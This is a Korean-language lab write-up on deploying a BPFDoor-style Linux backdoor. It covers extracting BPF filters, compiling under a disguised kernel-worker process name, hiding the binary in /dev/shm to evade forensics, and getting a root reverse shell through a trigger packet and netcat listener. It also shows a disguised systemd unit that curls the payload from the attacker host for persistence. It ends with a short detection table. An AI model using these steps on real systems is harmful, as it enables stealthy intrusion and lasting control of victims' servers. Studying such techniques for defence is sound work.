







# 🛡️ BPFDoor: Stealth Backdoor & Persistence 과정 정리

## ⚠️ 주의
이 문서는 **보안 학습 및 승인된 테스트 환경에서의 실습 내용을 정리한 기록**이다.  
실제 시스템에 대한 **무단 접근이나 권한 남용을 목적으로 작성된 것이 아니다.**

BPFDoor는 **2022년경 발견된 고도로 정교한 리눅스 기반 백도어**로,  
방화벽을 우회하고 프로세스를 위장하는 특성을 분석하기 위해 실습하였다.

---

# 실습 환경

```
13.x.x.x    (공격자 서버 - External)
15.x.x.x    (타겟 Bastion Host - Public)
```

---

# 공격 흐름 개요

```
[Target Bastion Host]
      │
      │ 1. BPF 필터 추출
      ▼
[Attacker Server]
      │
      │ 2. bpfdoor.c 코드 작성
      │ 3. BPF 바이트코드 삽입
      │ 4. 백도어 컴파일
      ▼
[Target Bastion Host]
      │
      │ 5. 백도어 전송
      │ 6. 백도어 실행 및 Persistence 설정
      ▼
[Attacker Server]
      │
      │ 7. Trigger 패킷 전송
      ▼
[Target Bastion Host]
      │
      │ 8. Reverse Shell 실행
      ▼
[Attacker Server]
      └─▶ Root Shell 획득
```

---

# 1. 타겟 서버에서 BPF 바이트코드 추출

타겟 서버 방화벽 환경에 맞는 **BPF(Bytecode)**를 추출한다.

BPFDoor는 BPF 필터를 이용하여 특정 패킷을 감지한다.

```bash
sudo tcpdump tcp dst port 22 -dd
```

SSH 포트(22번)로 들어오는 패킷을 필터링하기 위한  
**BPF 바이트코드가 출력된다.**



추출된 BPF 코드는 이후 **bpfdoor.c 내부 필터 코드에 삽입**된다.

---

# 2. 공격자 서버에서 백도어 코드 준비

공격자 서버에서 다음 파일을 준비한다.

```
bpfdoor.c
trigger.c
```
`bpfdoor.c`에는 앞 단계에서 추출한 **BPF 바이트코드**가 삽입된다.
* [bpfdoor.c 소스 코드 바로가기](img/BPFDoor/bpfdoor.c)
* [trigger.c 소스 코드 바로가기](img/BPFDoor/trigger.c)

---

# 3. 공격자 서버에서 백도어 컴파일

타겟 서버에는 gcc 환경이 없는 경우가 많기 때문에  
공격자 서버에서 미리 컴파일을 수행한다.

```bash
gcc -o kworker-helper bpfdoor.c
```

### 프로세스 위장

```
kworker-helper
```

리눅스 커널 워커 프로세스와 유사한 이름을 사용하여  
관리자의 탐지를 회피한다.

---

# 4. 타겟 서버로 백도어 전송

컴파일된 백도어 파일을 타겟 서버로 전송한다.

```bash
scp -i "Book-Village.pem" kworker-helper ubuntu@15.x.x.x:/dev/shm/
```

### `/dev/shm` 사용 이유

```
- 메모리 기반 파일 시스템
- 디스크 포렌식 분석 회피
- 서버 재부팅 시 자동 삭제
```


### 백도어 파일 생성 확인
###### 공격자 서버

###### 타겟 서버


---

# 5. 타겟 서버에서 백도어 실행

타겟 서버에서 백도어 프로그램을 실행한다.

타겟 서버의 ubuntu 계정은 관리자이기 때문에 sudo 실행 가능하게 되어있다.

```bash
sudo /dev/shm/kworker-helper
```

---


---

# 6. BPFDoor 패킷 감지 원리

BPFDoor는 **Raw Socket 기반 패킷 감시 기술**을 사용한다.

### Raw Socket 특징

- 포트를 Bind하지 않음
- 커널 레벨에서 패킷 감시
- 방화벽 우회 가능

### 스텔스 특징

다음 명령어로 확인해도 포트가 표시되지 않는다.

```
netstat
```


---

# 7. 공격자 서버에서 트리거 실행

공격자 서버에서 특수 패킷을 전송하여  
백도어를 활성화한다.


```c
const char *payload = "X13.x.x.x:4444";

inet_aton("15.x.x.x", &sin.sin_addr);
```

트리거에는 **Reverse Shell 연결 정보**가 포함된다.

---

# 8. 공격자 서버에서 리스닝

Reverse Shell 연결을 받기 위해 공격자 서버에서 리스닝한다.

```bash
sudo nc -lvnp 4444
```

---

# 9. Reverse Shell 연결 확인

트리거가 성공하면 타겟 서버가 공격자 서버로 연결을 시도한다.

```bash
whoami
root
```

```bash
hostname
ip-10-0-26-222
```

# 10. Persistence 설정 (Systemd)

관리자가 프로세스를 종료하거나 서버가 재부팅되어도  
백도어가 다시 실행되도록 **systemd 서비스로 등록**한다.

```
nano /etc/systemd/system/syslog-check.service
```

```ini
[Service]
ExecStartPre=/usr/bin/curl -s http://13.x.x.x/kworker-helper -o /dev/shm/kworker-helper
ExecStartPre=/usr/bin/chmod +x /dev/shm/kworker-helper
ExecStart=/dev/shm/kworker-helper
Restart=always
```

---

# 11. 공격 흐름 요약

```
1. 타겟 서버에서 BPF 필터 추출
2. 공격자 서버에서 bpfdoor 코드 작성
3. BPF 코드 삽입 후 컴파일
4. 타겟 서버로 백도어 전송
5. 백도어 실행
6. 공격자 서버에서 Trigger 패킷 전송
7. Reverse Shell 획득
8. Persistence 설정

```

---

# 12. 탐지 및 대응 방안

| 구분 | 탐지 방법 | 설명 |
|-----|-----|-----|
| 프로세스 | `ps -ef --forest` | 비정상 프로세스 트리 탐지 |
| 네트워크 | VPC Flow Logs | SSH 패킷 이후 외부 4444 포트 연결 탐지 |
| 소켓 탐지 | `ss -0` | Raw Socket 사용 프로세스 탐지 |
| 무결성 | AIDE / Tripwire | systemd 서비스 변경 탐지 |
| 클라우드 | GuardDuty | 이상 네트워크 행위 탐지 |

---